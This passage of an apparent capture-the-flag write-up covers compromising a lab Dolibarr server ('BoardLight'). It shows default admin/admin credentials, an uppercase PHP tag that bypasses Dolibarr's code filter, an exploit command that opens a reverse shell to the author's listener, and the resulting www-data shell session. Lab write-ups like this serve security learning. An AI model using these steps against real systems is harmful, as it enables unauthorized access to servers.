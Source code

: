 I look up online for default credentials for Dolibarr, and I come across [this Dolibarr forum post](https://www.dolibarr.org/forum/t/login-after-installation/16088), which links to [this Dolibarr github issue](https://github.com/Dolibarr/dolibarr/issues/6568). The default credentials for a Dolibarr instance on Docker is `admin/admin`. Inputting these credentials logs me in as Admin. Success!


Doing some research reveals a [PHP exploitation in Dolibarr](https://www.swascan.com/security-advisory-dolibarr-17-0-0/). In the webpage editor, if you input php code without holding permissions to do so, Dolibarr will throw an error and forbid you from saving the code. *But*, if you format the php code as 

```php
<?PHP  ?>
```

instead of

```php
<?php ?>
```

Dolibarr will accept this, mistaking it for some other type of code. Any character in uppercase will work for this.


Now that I can add php code to the webpage, I can inject a reverse shell into the server to gain access. I found a python script that will automatically deploy a reverse shell on Dolibarr [here](https://github.com/nikn0laty/Exploit-for-Dolibarr-17.0.0-CVE-2023-30253/blob/main/exploit.py). 

```console
┌─[eclectic@parrot]─[~/Downloads]
└──╼ $python exploit.py http://crm.board.htb admin admin 10.10.16.2 1234
[*] Trying authentication...
[**] Login: admin
[**] Password: admin
[*] Trying created site...
[*] Trying created page...
[*] Trying editing page and call reverse shell... Press Ctrl+C after successful connection

```

```console
┌─[✗]─[eclectic@parrot]─[~]
└──╼ $nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.16.2] from (UNKNOWN) [10.10.11.11] 41660
bash: cannot set terminal process group (868): Inappropriate ioctl for device
bash: no job control in this shell
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ `script /dev/null -c /bin/bash                                                    

www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ script /dev/null -c /bin/bash
<tdocs/public/website$ script /dev/null -c /bin/bash            
Script started, file is /dev/null
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ ls
ls
index.php  styles.css.php
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@boardlight:~/html/crm.board.htb/htdocs/public/website$ 
```
